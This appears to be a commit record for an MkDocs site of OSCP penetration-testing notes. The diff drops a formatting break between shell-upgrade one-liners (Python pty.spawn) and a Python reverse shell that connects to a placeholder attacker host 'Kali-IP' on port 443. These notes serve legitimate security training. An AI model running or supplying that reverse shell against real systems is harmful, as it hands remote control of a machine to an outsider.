

Before and after one commit to jackyho522/obsidian-notes, an MkDocs documentation site: the page built from docs/OSCP_notes/Note 1.md, in a window 1280 px wide and 900 px high, scrolled down 10684 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update Note 1.md

````diff
--- a/docs/OSCP_notes/Note 1.md
+++ b/docs/OSCP_notes/Note 1.md
@@ -413,10 +413,6 @@ python -c 'import pty; pty.spawn("/bin/sh")'
 python3 -c 'import pty; pty.spawn("/bin/sh")'
 python3 -c 'import pty; pty.spawn("/bin/bash")'
 /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
-```
-
-<br/>
-```
 python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Kali-IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
 ```
 ## Flags
````
